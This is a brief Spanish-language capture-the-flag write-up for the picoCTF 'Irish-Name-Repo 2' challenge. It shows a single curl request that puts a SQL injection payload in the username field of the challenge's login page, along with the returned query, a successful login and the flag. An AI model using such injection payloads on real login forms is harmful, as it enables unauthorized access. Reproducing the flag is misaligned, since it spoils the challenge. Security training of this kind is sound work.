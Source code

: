 # Irish-Name-Repo 2

## Objetivo 
Descripción:
Hay un sitio web funcionando en `https://jupiter.challenges.picoctf.org/problem/53751/`( [enlace](https://jupiter.challenges.picoctf.org/problem/53751/) ). Alguien ha pasado por alto el inicio de sesión antes y ahora se está fortaleciendo. ¡Intenta ver si aún puedes iniciar sesión! o http://jupiter.challenges.picoctf.org:53751

Sugerencias:
La contraseña está siendo filtrada.

## Solución
``` shell
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin';&password=loquesea&debug=1"
<pre>username: admin';
password: loquesea
SQL query: SELECT * FROM users WHERE name='admin';' AND password='loquesea'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_fa983901}</p>                                                                                                

```

## Notas


## Referencias
[SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)